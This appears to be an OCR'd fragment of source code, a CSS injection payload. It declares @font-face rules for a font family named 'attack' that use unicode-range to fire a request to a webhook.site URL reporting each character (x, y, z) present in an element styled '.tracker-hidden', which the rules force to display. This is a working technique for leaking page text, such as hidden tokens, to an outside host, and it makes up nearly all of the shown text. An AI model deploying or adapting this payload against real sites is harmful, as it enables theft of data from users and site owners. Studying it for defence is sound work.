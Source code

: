 }

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:x');

           unicode-range:U+0078;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:y');

           unicode-range:U+0079;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:z');

           unicode-range:U+007A;

}

 

.tracker-hidden{

        display:block!important;

           font-family:attack;

}